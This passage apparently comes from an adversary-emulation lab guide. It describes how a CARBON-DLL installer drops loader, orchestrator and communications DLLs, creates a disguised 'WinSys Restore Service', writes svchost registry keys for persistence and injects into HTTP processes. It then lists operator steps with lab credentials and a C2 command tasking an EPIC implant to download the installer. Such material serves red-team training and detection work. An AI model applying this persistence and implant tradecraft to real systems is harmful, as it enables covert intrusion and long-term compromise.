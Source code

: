 The CARBON-DLL installer will create the following subdirectories in
`C:\Program Files\Windows NT` for tasking-related files and output:

* `C:\Program Files\Windows NT\2028`
* `C:\Program Files\Windows NT\0511`
* `C:\Program Files\Windows NT\Nlts`

The CARBON-DLL installer will drop the following files to disk:

* CAST-128 encrypted configuration file to
`%programfiles%\Windows NT\setuplst.xml`
* Loader DLL to `%systemroot%\System32\mressvc.dll`
* Orchestrator DLL to `%programfiles%\Windows NT\MSSVCCFG.dll`
* Communications library DLL to `%programfiles%\Windows NT\msxhlp.dll`

After successful file writes, the CARBON-DLL installer will create the `WinSys Restore Service`
service, written as `WinResSvc`, to execute the loader DLL.

The CARBON-DLL installer then performs two registry writes to make sure that
the service can find the loader DLL and that the service will run under
`svchost`:

1. The loader DLL path is written to registry key
`HKLM:\SYSTEM\CurrentControlSet\services\WinResSvc\Parameters` under the
`ServiceDll` value
1. The service is written to registry key
`HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost` under the
`WinSysRestoreGroup` value

Once the service is set up, the CARBON-DLL installer will start the service
before terminating its own execution.

On service execution, the loader DLL `mressvc.dll` will run under `svchost` and
execute the orchestrator DLL `MSSVCCFG.dll`. The orchestrator DLL will then
inject the communications library DLL `msxhlp.dll` into processes typically
using HTTP, such as Internet Explorer. Several configuration, logging, and
tasking files are dropped in `C:\Program Files\Windows NT`.

---

### ☣️ Procedures

:arrow_right: Return to your RDP session to `hobgoblin (10.20.20.102)` as `Gunter`

* Ensure you have a Microsoft Edge window open with OWA. If not:

  * Open up Microsoft Edge and browse to `https://brieftragerin.skt.local/owa`. Login:

  | Username   | Password |
  | :--------: | :---------------: |
  | skt\Gunter  | Password1! |

:arrow_right: Switch back to your Kali terminal and task the SYSTEM level EPIC implant to download the CARBON-DLL installer:

```bash
./evalsC2client.py --set-task 51515228-8a7b-4226-e6e3f4 'name | C:\Windows\System32\WinResSvc.exe | dropper.exe'
```

